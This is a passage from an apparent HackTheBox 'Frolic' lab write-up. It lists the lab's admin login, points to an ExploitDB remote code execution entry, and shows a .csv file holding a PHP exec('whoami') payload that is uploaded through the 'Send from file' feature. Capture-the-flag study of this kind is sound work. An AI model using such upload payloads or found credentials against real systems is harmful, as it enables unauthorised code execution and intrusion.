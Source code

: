     admin : idkwhatispass

// Searhing in ExploitDB , found [Remote Code Execution Vulnerability](https://www.exploit-db.com/exploits/42044)

// Following the exploit , Make a .csv file with php code 

    $ cat backdoor.csv 
    <?php echo exec('whoami'); ?>,1

// Navigate to 'My Account' >> 'Send from file'

![Image 20](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Frolic/20.png)

// Upload the file and its work !

![Image 21](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Frolic/21.png)
